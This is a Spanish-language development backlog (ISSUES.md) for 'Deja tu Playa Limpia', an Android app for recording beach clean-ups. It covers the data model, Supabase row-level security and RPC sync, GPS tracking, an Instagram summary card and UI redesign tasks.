

# Backlog de Desarrollo e Issues Técnicos (`ISSUES.md`)

**Fuente oficial del backlog** del sistema **"Deja tu Playa Limpia" (Logística Verde)**, alineado con **PRD.md v4.0** (10 pantallas, Room v4, Supabase v4 con RLS + RPC).

- **Fase v2 (ISSUE-01 a 15):** ✅ completada. Se resume abajo; las partes reemplazadas por la v3 están marcadas con ⚠️.
- **Fase v3 (ISSUE-16 a 30):** en curso. Incorpora el `plan_de_trabajo.md` de la clienta y la revisión técnica del 29-10-2026.
- **Cambios v4 (ISSUE-31 a 36):** ✅ implementados el 31-10-2026 (falta ejecutar el SQL en Supabase).

**Hitos:** pruebas offline del 2 al 6 de noviembre · capacitación del 9 al 13 de noviembre · **piloto del 16 al 20 de noviembre de 2026**.

---

## ✅ Fase v2 — Completada

| Issue | Título | Estado |
| :--- | :--- | :--- |
| ISSUE-01 | Proyecto Android (Kotlin, Compose, Room, Retrofit, CameraX, ML Kit, Location, FileProvider) | ✅ |
| ISSUE-02 | Entidades de catálogo en Room + `supabase_schema.sql` | ✅ ⚠️ `UsuarioEntity` se elimina en ISSUE-17 |
| ISSUE-03 | Entidades operativas (`jornada`, `herramienta_jornada`, `basura_recolectada`) y DAOs | ✅ ⚠️ `id_usuario` se elimina en ISSUE-17 |
| ISSUE-04 | `NetworkMonitor` e `ImageCompressor` (720p) | ✅ |
| ISSUE-05 | P1: menú y botón Sincronizar tricolor | ✅ + "Ver últimos resúmenes" (ISSUE-25) |
| ISSUE-06 | P2: líder y voluntarios desde catálogo | ✅ ⚠️ se reemplaza por nombres escritos a mano en ISSUE-18 |
| ISSUE-07 | P3: sectores (m²) y foto de inicio (con omitir) | ✅ ⚠️ guardar IDs de sectores en ISSUE-17 |
| ISSUE-08 | P4: escaneo QR + selector de respaldo | ✅ |
| ISSUE-09 | P5: comenzar/finalizar, GPS y botonera | ✅ ⚠️ GPS pasa a Foreground Service en ISSUE-23 |
| ISSUE-10 | P6: fotos limpio y sacos (con omitir) | ✅ |
| ISSUE-11 | P7: estado final de herramientas | ✅ |
| ISSUE-12 | P8: resumen y pesaje (Ley 20.949, 25 kg) | ✅ ⚠️ encargado desde participantes en ISSUE-19 |
| ISSUE-13 | P9: entrega de sacos y guardar | ✅ + navega a P10 (ISSUE-25) |
| ISSUE-14 | Cliente Retrofit para Supabase (REST por tabla) | ✅ ⚠️ se reemplaza por RPC en ISSUE-21 |
| ISSUE-15 | Conector Supabase → Google Sheets + keep-alive | ✅ ⚠️ clave secreta y nuevas columnas en ISSUE-27 |

---

## 📚 Épica 5: Documentación v3

### `[ISSUE-16]` Unificar documentación y declarar fuentes oficiales ✅
* [x] Eliminar el PRD de 8 pantallas (PDF, 2 copias) y el entregable académico `.docx`.
* [x] Declarar `PRD.md` e `ISSUES.md` como fuentes oficiales (PRD §0).
* [x] Reescribir `PRD.md` (v3, 10 pantallas, participantes, RLS/RPC, P10).
* [x] Reescribir `ARCHITECTURE.md` y `GLOSSARY.md` alineados al PRD v3.
* [x] Reescribir `ISSUES.md` (este archivo).

---

## 💾 Épica 6: Participantes por Jornada (sin tabla `usuario`)

### `[ISSUE-17]` Modelo de datos Room v3 y política de migraciones · 0,5 d ✅
* **Descripción:** eliminar el padrón de usuarios y registrar los integrantes dentro de cada jornada (PRD §4, RNF-06).
* **Criterios de aceptación:**
  - [x] Eliminar `UsuarioEntity`, sus consultas en `CatalogoDao` y su semilla en `CatalogoSeedData`.
  - [x] Crear `ParticipanteJornadaEntity` (`participante_jornada`): `id` PK auto, `id_registro` FK → jornada (`CASCADE`), `nombre`, `rol` (`LIDER` | `VOLUNTARIO`), índice único `(id_registro, nombre_normalizado)`.
  - [x] `JornadaEntity`: quitar `id_usuario`, su FK y su índice; agregar `total_participantes: Int` y `sectores_ids_csv: String`.
  - [x] DAO: `observeParticipantes(idRegistro)`, `insertParticipante`, `deleteParticipante`, `getParticipantesList`.
  - [x] `LogisticaVerdeDatabase` versión 3 con `exportSchema = true` y carpeta `app/schemas/` configurada en KSP (`room.schemaLocation`).
  - [x] Migración 2 → 3 destructiva **solo para ese salto** (`fallbackToDestructiveMigrationFrom(2)`); quitar `fallbackToDestructiveMigration()` general.
  - [x] Documentar en el código que cualquier versión futura requiere `Migration` explícita + test con `MigrationTestHelper`.
  - [x] ~~Sincronizar las jornadas pendientes antes de instalar la v3~~ — descartado (29-10-2026): los datos locales de prueba no importan.
* **Notas de cierre (29-10-2026):** esquema exportado en `app/schemas/.../3.json`; `room-testing` agregado para `MigrationTestHelper`. Para compilar sin `UsuarioEntity` se adelantó parte de ISSUE-18 y 19 (ver ⏩). La sincronización ya no envía `id_usuario`, así que contra el esquema actual de Supabase fallará hasta ISSUE-20/21.

### `[ISSUE-18]` Pantalla 2: formulario de líder y voluntarios escritos a mano · 1 d ✅
* **Descripción:** RF-P2 y BR-01/BR-02.
* **Criterios de aceptación:**
  - [x] Card 1: campo nombre del líder (≥ 3 caracteres) + selector Cuadrilla A–D.
  - [x] Card 2: campo + `[ + Agregar ]`, lista con eliminar y contador "N voluntarios + 1 líder = N+1 integrantes".
  - [x] Rechazar vacíos y duplicados (normalizando mayúsculas y espacios, incluyendo el nombre del líder) con mensaje bajo el campo.
  - [x] Crear la jornada en Room al agregar el primer participante y persistir cada alta o baja de inmediato (RNF-01).
  - [x] Mantener `nombre_lider`, `voluntarios_csv` y `total_participantes` sincronizados con `participante_jornada`.
  - [x] `JornadaFlujoViewModel`: reemplazar `selectLider` / `toggleVoluntario` por `onNombreLiderChange`, `agregarVoluntario`, `eliminarVoluntario`; quitar `lideresActivos`, `voluntariosActivos`, `usuariosActivos`.
  - [x] La reanudación reconstruye los participantes desde `participante_jornada` y los sectores desde `sectores_ids_csv` (no por nombre).
  - [x] Tests: regla de Pantalla 2, fakes, casos de duplicado y reanudación. Incluye persistencia inmediata, mensajes y contador.

### `[ISSUE-19]` Pantalla 8: encargado de pesaje desde los participantes · 0,25 d ✅
* **Criterios de aceptación:**
  - [x] El desplegable lista los participantes de la jornada + "Otra persona (escribir nombre)" con campo de texto.
  - [x] Se mantiene la validación BR-06 (encargado obligatorio, ≤ 25 kg/saco).
  - [x] Test de la regla con encargado externo (incluye reanudación).

---

## 🔐 Épica 7: Seguridad y Sincronización Robusta

### `[ISSUE-20]` Supabase esquema v3: RLS, RPC `sincronizar_jornada`, bucket solo-INSERT y vistas · 1 d ✅
* **Descripción:** PRD §5.2, §5.3 y §5.5. Actualizar `docs/supabase_schema.sql` para que sea re-ejecutable.
* **Criterios de aceptación:**
  - [x] `DROP TABLE usuario`; quitar `id_usuario` de `jornada`; agregar `total_participantes`, `sectores_ids` (`text[]` o CSV) y crear `participante_jornada` con `UNIQUE (id_registro, lower(trim(nombre)))`.
  - [x] `ALTER TABLE … ENABLE ROW LEVEL SECURITY` en **todas** las tablas de `public`.
  - [x] Políticas: `anon` solo `SELECT` en los 3 catálogos; ningún acceso directo a tablas de jornada.
  - [x] Función `public.sincronizar_jornada(p jsonb) RETURNS text` `SECURITY DEFINER` con `SET search_path = public`: transacción única, validaciones (PRD §5.2), inserta todas las tablas, actualiza `herramienta_catalogo.estado`, devuelve `INSERTADA` o `YA_EXISTIA` (sin modificar si ya existe).
  - [x] `REVOKE ALL ON FUNCTION … FROM public; GRANT EXECUTE … TO anon`.
  - [x] `vista_reporte_jornadas` actualizada (columna `total_participantes` en lugar de `id_usuario`, participantes agregados) y `REVOKE SELECT … FROM anon, authenticated`.
  - [x] Nueva `vista_densidad_diaria`: por fecha local (`America/Santiago`), área con sectores sin repetir, kg del día y densidad; revocada para `anon`.
  - [x] Storage `evidencias-fotos`: público para lectura, política `INSERT` para `anon`; **eliminar** las políticas de `UPDATE` (y no crear `DELETE`).
  - [x] Verificación manual con la clave pública (07-11-2026): `SELECT` a `jornada` y a `jornada_rechazada` → denegado (401); `PATCH` a `herramienta_catalogo` → denegado (401); listar el bucket → vacío; RPC con payload válido → `INSERTADA` (sincronización real desde la app). *Sin probar a mano: subir dos veces la misma foto (paso 5 de la sección 8).*
* **Notas de cierre (29-10-2026):**
  - Probado en Postgres 15 local (Docker) con roles `anon`/`authenticated`/`service_role` y `storage` simulados: migración desde v2 sin perder jornadas, re-ejecución sin errores, `anon` denegado en tablas de jornada, vistas y `UPDATE` de inventario; RPC `INSERTADA` → `YA_EXISTIA`; 9 payloads inválidos rechazados sin dejar filas; densidad del día sin repetir sectores.
  - Extras: el servidor recalcula `nombre_lider`, `voluntarios_csv`, `total_participantes`, `sectores_csv`, `area_total_m2` y `kg_totales`; las URLs de fotos deben ser de este bucket y de esta jornada; una jornada antigua sincronizada tarde no pisa el estado de una herramienta usada después; el bucket acepta solo JPEG ≤ 5 MB con el nombre `REG-…_{1|2|3}_{inicio|limpio|sacos}.jpg` y `anon` no puede listarlo.
  - Contrato del payload en el encabezado de la sección 4 del SQL y ejemplo en `docs/rpc_ejemplo.json`. Todos los errores de validación responden HTTP 400.
  - ✅ (07-11-2026) Esquema v4 ejecutado en Supabase y verificado (ver ISSUE-31 y ISSUE-42).

### `[ISSUE-21]` Cliente de sincronización: RPC, fotos idempotentes y "sin clave = error" · 1 d ✅
* **Descripción:** PRD §5.1, §5.4, BR-09, BR-10, RNF-05.
* **Criterios de aceptación:**
  - [x] `SupabaseApi`: quitar `getUsuarios`, `upsertJornada`, `upsertHerramientasJornada`, `patchEstadoHerramientaCatalogo`, `upsertBasuraRecolectada`; agregar `POST rest/v1/rpc/sincronizar_jornada` con un DTO único (cabecera + participantes + herramientas + basura + URLs).
  - [x] Subida de fotos **sin** `x-upsert`; la respuesta "ya existe" (409 / `Duplicate`) se trata como éxito.
  - [x] **Eliminar el "modo local"** de `JornadaSyncRepository`: si `isCloudConfigured()` es falso, devolver error y dejar todo en `PENDIENTE_SYNC`.
  - [x] `app/build.gradle.kts`: la tarea de build *release* falla si faltan `SUPABASE_URL` o `SUPABASE_PUBLISHABLE_KEY`.
  - [x] `HttpLoggingInterceptor` solo en `BuildConfig.DEBUG`.
  - [x] `sincronizarCatalogosMaestros`: no sobrescribir el `estado` de herramientas presentes en jornadas `EN_CURSO` o `PENDIENTE_SYNC` (BR-10).
  - [x] Tests (`JornadaSyncRepositoryTest`): sin clave → 0 sincronizadas y la jornada sigue `PENDIENTE_SYNC`; falla de la RPC → `PENDIENTE_SYNC`; foto duplicada → éxito; `YA_EXISTIA` → `SINCRONIZADO`; el catálogo no pisa herramientas pendientes.
* **Notas de cierre (29-10-2026):**
  - La RPC recibe solo datos de origen; el servidor recalcula los derivados (ver ISSUE-20). Las URLs de fotos se guardan en Room apenas se suben, así un reintento tras un fallo de la RPC no vuelve a subirlas.
  - Si la RPC rechaza la jornada (HTTP 400), el mensaje de validación del servidor llega al usuario (ej. "Promedio por saco supera 25 kg").
  - 9 tests en `JornadaSyncRepositoryTest`, incluido el contrato JSON (`{"p": {"jornada": …}}`) contra los nombres del SQL.
  - Verificado que `preReleaseBuild` pasa con claves configuradas; el caso sin claves no se probó para no tocar `local.properties`.
  - ✅ Prueba real (07-11-2026): jornada sincronizada desde el emulador contra Supabase y guardada en `jornada`.

### `[ISSUE-22]` Navegación protegida y numeración "Pantalla N de 10" · 0,5 d ✅
* **Descripción:** RF-NAV-1 a RF-NAV-5, BR-11.
* **Criterios de aceptación:**
  - [x] Atrás libre en P2–P4 y en P5 antes de comenzar.
  - [x] Desde `Comenzar Limpieza` hasta P9: `BackHandler` con diálogo "¿Salir al menú? La jornada queda guardada" (`SalirAlMenuBackHandler`).
  - [x] Navegación hacia adelante con `popUpTo` para no acumular pantallas ni permitir reabrir P5 después de finalizada. Además `finalizarLimpieza` ignora un segundo cierre.
  - [x] Títulos "Pantalla N de 10" en todas las pantallas (P1–P9; P10 se titula al crearla en ISSUE-25).
  - [x] Test: un segundo `finalizarLimpieza` no cambia `hora_fin_ms` ni vuelve a navegar. *(Falta prueba manual en teléfono.)*

### `[ISSUE-23]` GPS en Foreground Service · 1 d ✅ (falta prueba en terreno)
* **Descripción:** RF-P5 y RNF-02.
* **Criterios de aceptación:**
  - [x] `LimpiezaLocationService` con `foregroundServiceType="location"` y notificación fija "Limpieza en curso · X,XX km" (canal propio).
  - [x] Manifest: `FOREGROUND_SERVICE`, `FOREGROUND_SERVICE_LOCATION`, `POST_NOTIFICATIONS`; solicitud de permiso de notificaciones en Android 13+.
  - [x] El servicio escribe `km_recorridos` y la coordenada inicial directamente en Room (no depende del ViewModel).
  - [x] Se inicia con `Comenzar Limpieza`, se detiene con `Finalizar Limpieza`, y se reanuda conservando los km si la app se reinicia con la limpieza iniciada.
  - [x] Se conserva el filtro anti-rebote actual (> 5 m, precisión ≤ 35 m, ≤ 500 m).
  - [ ] ⏭️ Prueba en dispositivo: 30 minutos caminando con la pantalla apagada registran una distancia coherente.
* **Notas de cierre (29-10-2026):**
  - `service/LimpiezaLocationService.kt` reutiliza `GpsDistanceTracker`; P5 solo lo inicia/detiene y el ViewModel observa `km_recorridos` en Room.
  - En Room, `updateKmRecorridos` ignora jornadas con `hora_fin_ms > 0` y la coordenada inicial solo se escribe si está vacía: una lectura tardía no altera una limpieza cerrada.
  - Si se sale al menú durante la limpieza, el GPS sigue midiendo (la limpieza continúa) y la notificación lleva de vuelta a la app.
  - Si se niega la ubicación, la limpieza comienza igual pero sin km (comportamiento previo). Si se niegan las notificaciones, el servicio funciona pero la notificación no se ve.
  - Tests: los km escritos por el servicio llegan a la UI y se conservan al finalizar; la coordenada inicial no se pisa.

---

## 🏖️ Épica 7b: Cambios v4 de la clienta (31-10-2026) — antes de la Pantalla 10

> Decisiones tomadas en la ronda de preguntas del 31-10-2026. Room y Supabase se **destruyen y se vuelven a crear** (los datos actuales son de prueba).

### `[ISSUE-31]` Modelo v4: playas, brigada, fecha, sin herramientas, motivos y topes · 1 d ✅
* **Criterios de aceptación:**
  - [x] Room v4 (destructiva desde 1–3): nueva `playa_catalogo` (`id_playa`, `nombre_playa`); `sector_catalogo.id_playa`.
  - [x] `jornada`: `cuadrilla` → `brigada`; nuevas `id_playa`, `nombre_playa`, `fecha_jornada` (AAAA-MM-DD, hora de Chile, se fija al crear la jornada en P2), `sin_herramientas`, `motivo_omision_inicio|limpio|sacos`.
  - [x] Supabase v4: `docs/supabase_reset_v4.sql` (borra todo, incluidas las vistas) + `supabase_schema.sql` recreado; **sin vistas** por ahora.
  - [x] RPC: valida playa y que los sectores sean de esa playa; recalcula `nombre_playa`; `fecha_jornada` entre hoy−60 días y hoy+1 (Chile); hora de inicio no futura.
  - [x] Topes en app y servidor: participantes ≤ 60, cantidad por residuo ≤ 5.000, sacos ≤ 100, kg totales ≤ 2.500, km ≤ 30, duración ≤ 12 h.
* **Notas de cierre (31-10-2026):**
  - Para que una jornada nunca quede bloqueada por un tope que el usuario no controla, la app **limita** en vez de rechazar: el GPS no acumula más de 30 km y, si se finaliza después de 12 h, la hora de fin queda en inicio + 12 h. Los demás topes (participantes, sacos, kg, conteo) se validan en pantalla.
  - SQL probado en Postgres 15 local (Docker) con roles `anon`/`authenticated`/`service_role` simulados: reset + esquema dos veces y re-ejecución del esquema sin errores; 27 casos (válida → `INSERTADA`, repetida → `YA_EXISTIA`, sin herramientas válida, 19 rechazos con mensaje claro, permisos de `anon`, vistas eliminadas).
  - La RPC también rechaza herramientas o tipos de basura repetidos con HTTP 400 (antes podían responder 409).
  - 30 tests unitarios en verde (7 nuevos de v4).
  - ✅ (07-11-2026) `supabase_reset_v4.sql` + `supabase_schema.sql` ejecutados en Supabase. La primera ejecución del esquema quedó incompleta (faltaban `jornada_rechazada` y la RPC); al volver a ejecutarlo quedó completo.

### `[ISSUE-32]` Playas: selector en P2 y sectores por playa · 0,5 d ✅
* **Criterios de aceptación:**
  - [x] P2: selector de playa debajo del líder y la brigada (obligatorio para avanzar).
  - [x] P3 muestra solo los sectores de la playa elegida; cambiar de playa limpia los sectores marcados.
  - [x] P1 ya no muestra "Playa Grande de Cartagena"; la jornada en curso muestra su playa.
  - [x] Catálogo de playas se descarga desde Supabase junto con los otros catálogos.

### `[ISSUE-33]` Brigadas y títulos · 0,25 d ✅
* **Criterios de aceptación:**
  - [x] "Cuadrilla" → "Brigada" (A–D) y "Líder" → "Líder de brigada" en la app, Room y Supabase.
  - [x] Se quita "Pantalla N de 10" de todas las pantallas; "Reanudar jornada" muestra el nombre del paso.

### `[ISSUE-34]` Herramientas: nombre y número, sin pesa, opción sin herramientas · 0,5 d ✅
* **Criterios de aceptación:**
  - [x] El QR se mantiene; la app muestra solo nombre y número ("Pinza 1") y nunca el código.
  - [x] La pesa sale del catálogo (SQL y lista inicial de la app).
  - [x] P4: casilla "Esta brigada no lleva herramientas" → se puede avanzar sin herramientas y se salta P7.
  - [x] Servidor: `sin_herramientas` ⇒ 0 herramientas; si no, ≥ 1.

### `[ISSUE-35]` Motivo al omitir una foto · 0,25 d ✅
* **Criterios de aceptación:**
  - [x] Al marcar "Omitir fotografía" (P3 y P6) aparece un campo de texto en la misma pantalla; el motivo es obligatorio (máx. 120 caracteres).
  - [x] Se guarda en `motivo_omision_*` y se valida en el servidor.

### `[ISSUE-36]` Reloj del teléfono · 0,25 d ✅
* **Criterios de aceptación:**
  - [x] ~~P1 muestra un aviso si la hora automática del teléfono está desactivada.~~ Quitado en el rediseño de la P1 (ISSUE-41); se mantiene la ventana de fechas de la RPC.
  - [x] Ventana de fechas en la RPC (ver ISSUE-31).

---

## 📸 Épica 8: Resumen de Impacto e Instagram

> **Decisiones del 31-10-2026:** m² = suma de los sectores de P3; se muestran "personas" (líder + voluntarios); **tarjeta sin fotos** (Ley 21.719); sin `META_APP_ID` (solo envío directo a Instagram + selector); permiso de galería solo en Android 8–9 y al tocar el botón; Atrás desde P10 → P1; P1 lista las **últimas 5 jornadas cerradas** (pendientes o sincronizadas); hashtag y @cuenta son textos de prueba hasta que la clienta los entregue; formatos es-CL ("31 oct 2026", "42,5 kg", "2 h 15 min", "412 · Colillas de cigarro").

### `[ISSUE-24]` ✅ Cálculo de métricas del resumen de impacto · 0,5 d
* **Criterios de aceptación:**
  - [x] `ResumenImpactoCalculator` puro (sin Android): kg totales, % reciclable, N° personas, m², km, duración, top 3 residuos (excluye 0, desempate por nombre).
  - [x] Tests unitarios (BR-12), incluido el caso 0 kg (% reciclable = 0, sin división por cero). `ResumenImpactoCalculatorTest`: 6 tests, incluidos los formatos.

### `[ISSUE-25]` ✅ Pantalla 10: vista previa y navegación · 1 d
* **Criterios de aceptación:**
  - [x] `ResumenImpactoScreen` en Compose (sin dato educativo); la vista previa es el bitmap final.
  - [x] ~~Antes/después con fotos~~ → descartado: tarjeta solo con cifras.
  - [x] Hashtag / @cuenta y textos de marca en `strings.xml` (`resumen_*`, placeholders a validar con la clienta).
  - [x] P9 `[ Guardar ]` → P10; `[ Volver al inicio ]` y Atrás → P1 (la P9 no queda en el back stack).
  - [x] P1: `[ Ver últimos resúmenes ]` con hasta 5 jornadas cerradas (fecha · playa / brigada · líder · estado de sync).

### `[ISSUE-26]` ✅ Imagen 1080×1920 y compartir · 0,75 d
* **Criterios de aceptación:**
  - [x] `ResumenImpactoGenerator` renderiza la tarjeta a `Bitmap` 1080×1920 y la guarda en `cacheDir/compartir/resumen_<id>.png`.
  - [x] `cache-path` `compartir/` en `res/xml/file_paths.xml`.
  - [x] Compartir: `ACTION_SEND` `image/png` con `setPackage("com.instagram.android")`; si Instagram no está instalado → `Intent.createChooser`. (`ADD_TO_STORY` con `META_APP_ID` queda fuera por ahora.)
  - [x] `[ Guardar en galería ]` vía `MediaStore` (Pictures/DejaTuPlayaLimpia); en Android 8–9 pide `WRITE_EXTERNAL_STORAGE` (`maxSdkVersion=28`).
  - [ ] Prueba manual en un teléfono con Instagram (Historia y Feed). En el emulador (sin Instagram) se verificó: tarjeta, guardado en galería, selector de Android, Atrás → P1 y la lista de la P1.

---

## 🚀 Épica 9: Despliegue y Piloto

### `[ISSUE-27]` Conector Google Sheets mínimo (clave secreta + nuevo esquema) · 0,25 d
* **Descripción:** mantener el conector funcionando hasta el rediseño de la planilla (ISSUE-29). ⚠️ Incluir la protección contra inyección de fórmulas de ISSUE-58.
* **Criterios de aceptación:**
  - [ ] Leer `SUPABASE_SECRET_KEY` desde Script Properties (nunca en el código ni en el repositorio).
  - [ ] Cambiar la columna "ID Líder (FK)" por "N° Participantes".
  - [ ] El *keep-alive* diario sigue funcionando.

### `[ISSUE-28]` Despliegue y entorno · 0,5 d
* **Criterios de aceptación:**
  - [x] `git init`, `.gitignore` verificado (`local.properties`, `.env`, `build/`, keystores), primer commit y repositorio en GitHub.
  - [x] Identificador público `applicationId = "dejatuplayalimpia.app"` (31-10-2026; el `namespace` del código sigue `cl.logisticaverde.app`). ⚠️ Se instala como app nueva: desinstalar la versión anterior en los teléfonos de prueba.
  - [x] Ícono de la app = logo (ícono adaptativo `mipmap-anydpi/ic_launcher`, logo en la zona segura sobre fondo blanco).
  - [ ] Keystore de firma: contraseña y respaldo **por definir** (no se sube a git).
  - [ ] Quitar `org.gradle.java.home` de `gradle.properties` (moverlo a `~/.gradle/gradle.properties`).
  - [x] ~~Sincronizar las jornadas pendientes antes de instalar la v3~~ — descartado: los datos de prueba se pueden perder (la migración a v3 los borra).
  - [x] Ejecutar `supabase_schema.sql` (v4) y la verificación manual de ISSUE-20 (07-11-2026).
  - [ ] Configurar Script Properties en Sheets y ejecutar `instalarTriggersAutomaticos()`.
  - [ ] `./gradlew testDebugUnitTest` en verde y APK release generado.

### `[ISSUE-29]` Prueba piloto en terreno (QA) · 1 d
* **Criterios de aceptación:**
  - [ ] Imprimir los QR y probar la lectura a pleno sol.
  - [ ] Recorrido completo P1→P10 en modo avión; luego sincronizar y verificar en Supabase y Sheets.
  - [ ] Medir GPS y batería (< 5 % en 3 h) con la pantalla apagada.
  - [ ] Compartir el resumen en una cuenta de Instagram de prueba.
  - [ ] Reiniciar el teléfono en medio de P5 y verificar la reanudación (hora y km conservados).

### `[ISSUE-37]` Sincronización automática con WorkManager · 0,5 d (de los últimos)
* Al guardar en P9 se programa una tarea "sincronizar" con la condición "con internet" y reintentos con espera creciente. El botón tricolor se mantiene.

### `[ISSUE-38]` 🔐 Cuenta por teléfono (Supabase Auth) · ~1 d (al final)
* Resuelve ISSUE-57 (auditoría 08-11-2026). Opción elegida para el problema de la clave pública dentro del APK: una cuenta por brigada/teléfono, inicio de sesión una vez; la RPC y el bucket exigen sesión (`authenticated`) y se quita `EXECUTE` a `anon`.

### `[ISSUE-39]` 📝 Protección del inventario de herramientas — anotado, por decidir
* Riesgo: la RPC actualiza `herramienta_catalogo.estado`, así que quien tenga acceso podría marcar todo como Extraviado. Opciones: (1) la RPC no toca el catálogo y el admin aplica; (2) solo usuarios con sesión (requiere ISSUE-38); (3) el estado solo empeora desde la app; (4) tope por jornada.

### `[ISSUE-41]` ✅ Rediseño UI: tema completo + Pantalla 1 · 1 d
> **Decisiones del 31-10-2026:** logo y portada como imágenes (pendientes: logo PNG 512×512 transparente; portada sin texto ~1200×800); fondo degradado sin nubes; sin "Ubicación"; barra inferior Inicio · Reportes · Usuario (próximamente); sin botón "Revisar últimas jornadas" (queda en Reportes); ~~línea "Líder - Brigada" bajo Reanudar~~ (quitada el 07-11-2026); sin aviso de hora automática; Nunito en toda la app; paleta nueva en el tema completo; solo modo claro. Las demás pantallas se rediseñan una por una.
* **Criterios de aceptación:**
  - [x] Tema: `Color.kt` (VerdeAccion #2EAE7A, AzulPetroleo #0E7C86, AzulMarino #0F3D5E…), `Type.kt` con Nunito variable incluida en `res/font` (licencia en `docs/licencias/`), fondo degradado global en `MainActivity`.
  - [x] P1 según el diseño: encabezado, tarjeta de portada, botón Iniciar/Reanudar, tarjeta de estado de sincronización, `BarraInferior`.
  - [x] `ReportesScreen` (últimas 5 jornadas) reemplaza el diálogo de "Ver últimos resúmenes".
  - [x] La tarjeta de Instagram usa la nueva paleta y Nunito.
  - [x] Logo y portada en `res/drawable-nodpi` (WebP: `logo_app`, `portada_p1`; originales en `Mockup/assets/`).

### `[ISSUE-40]` 📝 Otros puntos de seguridad — anotados, por decidir
* ✅ `allowBackup="false"` + `dataExtractionRules` (31-10-2026): nada se respalda en la nube de Google ni se copia a un teléfono nuevo.
* Pendientes: bucket público (fotos visibles con la URL, Ley 21.719); límite del bucket de 5 MB (la app sube ~180 KB); respaldo de la keystore de firma.

### `[ISSUE-43]` ✅ Catálogos locales que no se actualizan al borrar en el servidor — resuelto con `is_activo`
> **Decisiones del 08-11-2026** (se elige la opción 2, desactivar en vez de borrar):
> 1. Columna **`is_activo`** (literal, en las 4 tablas: playas, sectores, herramientas y tipos de residuo), `BOOLEAN NOT NULL DEFAULT true` en Supabase. Lo guardado no se pierde al borrar (cada jornada copia los nombres); el problema eran las llaves foráneas en Supabase y en el teléfono, y las jornadas pendientes que el servidor rechazaba.
> 2. La app **oculta los inactivos al ingresar datos de jornadas nuevas**: playa en P2, sectores en P3, herramientas en P4 (desplegable y QR: "está dada de baja") y tipos de residuo al crear la grilla de P5. Lo ya elegido o contado en la jornada en curso se mantiene. En herramientas, `is_activo = false` (dada de baja) es distinto de "Extraviado" (perdida); ambas se ocultan en P4 hasta que el administrador cambie el dato en Supabase.
> 3. La RPC no cambia: sigue aceptando jornadas con elementos inactivos (solo exige que existan).
> 4. No se agrega borrado para herramientas ni tipos; playas y sectores mantienen el reemplazo del 07-11-2026.
> 5. Room v5 → v6 **destructiva** (solo datos de prueba, sin datos sensibles). Desde la v6, migraciones explícitas.
> 6. `docs/supabase_schema.sql` agrega las 4 columnas (`ADD COLUMN IF NOT EXISTS`). La app tolera que aún no existan: Gson deja `null` y se trata como activo.
> 7. Tests: `CatalogosInactivosTest` (7).
* **Criterios de aceptación:**
  - [x] Entidades con `activo: Boolean?` (`is_activo`), `estaActivo` = no es `false`; filtros en `JornadaFlujoViewModel`.
  - [x] Tests en verde (73).
  - [x] Verificado en emulador contra Supabase **sin** la columna: base v6, 4 catálogos descargados, todo activo.
  - [x] Ejecutados en Supabase los `ALTER TABLE` (08-11-2026); el teléfono descarga `is_activo` (todo activo) y Pinza 1 volvió a "Operativo". Verificado por el usuario: con `SECTOR-04` en `is_activo = false`, la P3 ya no lo muestra.
* ✅ **Resuelto para playas y sectores (07-11-2026):** al descargar, `reemplazarPlayas` / `reemplazarSectores` (transacción en `CatalogoDao`) borran lo que ya no viene del servidor y actualizan el resto; una lista vacía no borra nada. Detectado porque "Sector PRUEBA" (`SECTOR-TEST`, borrado en Supabase) seguía en la P3. Verificado contra Supabase en el emulador; 2 tests nuevos. El fake de `CatalogoDao` ahora se comporta como `@Upsert` (antes reemplazaba la lista y ocultaba el problema).
* ~~Pendiente: herramientas y tipos de basura~~ → resuelto con `is_activo` (08-11-2026).
* **Hallazgo (07-11-2026, prueba de rechazo de ISSUE-42):** `sincronizarCatalogosMaestros()` solo hace *upsert*: si el administrador borra (o cambia de playa) un sector, una herramienta o una playa en Supabase, la app conserva su copia local. El dato borrado sigue apareciendo en P2–P4, la validación de la P9 lo acepta y la jornada termina **rechazada** por la RPC al sincronizar ("Sector desconocido o de otra playa", "Herramienta desconocida", "Playa desconocida").
* **Riesgo en el piloto:** cualquier ajuste de catálogo hecho por el administrador provoca rechazos en los teléfonos que no se actualicen; hoy la única salida es restaurar el dato en el servidor y usar "Reintentar".
* **Opciones:**
  1. Reemplazar el catálogo local por el del servidor al descargarlo (borrar lo que ya no viene), sin tocar jornadas `EN_CURSO` / `PENDIENTE_SYNC` que lo usen.
  2. Marcar como "inactivo" en vez de borrar (columna `activo` en Supabase); la app oculta los inactivos en jornadas nuevas y el servidor sigue aceptándolos en jornadas ya hechas.
  3. Acordar con el administrador que los catálogos no se borran durante el piloto (solo documentar).
* Relacionado: ISSUE-39 (inventario de herramientas) y BR-10 (no pisar el estado de herramientas en jornadas pendientes).

### `[ISSUE-44]` ✅ Rediseño UI: Pantalla 2 "Conformar Brigada" · 0,5 d
> **Decisiones del 07-11-2026** (según la imagen de diseño, con la paleta y Nunito actuales; solo visual, sin cambios de lógica ni de Room):
> 1. Fondo degradado global de la P1; tarjetas blancas redondeadas.
> 2. Título "Conformar Brigada" en `AzulMarino`; subtítulos "Líder de brigada" y "Voluntarios" en `VerdeAccionOscuro`, sin numeración.
> 3. Brigadas en grilla 2×2: seleccionada en `VerdeAccion`; el resto en `AzulPetroleoClaro` con texto `AzulMarino`.
> 4. Playa: desplegable solo con el placeholder "Elige una playa" (sin "Playa" delante, tampoco con una playa elegida); ícono de mapa a la derecha, **fuera** del desplegable y solo decorativo.
> 5. Junto a "Voluntarios": ícono de voluntarios con globo que muestra la cantidad de voluntarios; siempre activo. (El ícono de líder se quitó el 07-11-2026.) Se quita el texto "N voluntarios + 1 líder = N+1 integrantes".
> 6. Agregar voluntario: botón redondo con "+", gris y deshabilitado si el campo está vacío.
> 7. Lista de voluntarios bajo el divisor, cada nombre con un basurero para eliminarlo; "Aún no hay voluntarios" si está vacía.
> 8. Botón Siguiente tipo píldora en verde (consistencia con "Iniciar jornada") con flecha a la derecha.
* **Criterios de aceptación:**
  - [x] `EquipoScreen` según las decisiones 1–8.
